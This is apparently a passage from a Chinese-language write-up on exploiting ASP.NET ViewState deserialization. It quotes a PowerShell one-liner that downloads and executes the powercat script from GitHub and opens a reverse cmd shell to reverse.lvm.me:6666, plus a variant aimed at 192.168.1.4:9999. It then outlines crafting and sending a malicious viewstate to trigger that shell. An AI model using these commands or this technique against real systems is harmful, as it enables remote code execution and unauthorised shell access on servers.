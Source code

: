 ```aspx
```

我们重点关注这一句

```
 set.Add("/c " + "powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c reverse.lvm.me -p 6666 -e cmd");
```

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 9999 -e cmd
```

这句是powershell反弹shell的标准语句。[powershell 反弹shell](https://www.cnblogs.com/-mo-/p/11487997.html)

其中的powercat是netcat的powershell版本，我们尝试下载它。下载就需要System.Net.Webclient的支持。

[IIS的搭建教程](https://blog.csdn.net/qq_36348823/article/details/81367819)

搭建好IIS，我们模拟一下网页ViewState的生成过程即可。然后把生成的viewstate发送，就可以反弹shell。

